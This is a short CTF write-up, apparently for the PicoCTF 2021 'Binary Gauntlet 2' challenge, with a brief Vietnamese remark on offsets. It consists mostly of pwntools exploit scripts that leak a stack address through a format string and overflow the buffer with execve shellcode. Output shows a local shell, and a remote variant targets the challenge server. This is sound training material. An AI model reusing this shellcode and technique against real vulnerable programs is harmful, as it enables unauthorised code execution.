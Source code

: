 ## Exploit
### Local
```python
from pwn import *

context.binary = ELF("./gauntlet")

run = process("./gauntlet")

run.sendline("%6$p")
leaked = int(run.recv().strip(), 16)

buf = leaked - 0x168

payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload += b'A' * (0x78 - len(payload))
payload += p64(buf)

run.sendline(payload)

run.interactive()
```
### Local output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-2/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process './gauntlet': pid 3560
[*] Switching to interactive mode
$ whoami
revirven
$  
```
Offset ở remote target system sẽ có chút khác biệt so với local (Offset từ địa chỉ bị leak đến `local_78` là **0x158** thay vì **0x168**)

### Remote
```python
from pwn import *

context.binary = ELF("./gauntlet")


run = remote("mercury.picoctf.net", 4349)

run.sendline("%6$p")
leaked = int(run.recv().strip(), 16)

buf = leaked - 0x158

payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload += b'A' * (0x78 - len(payload))
payload += p64(buf)

run.sendline(payload)
```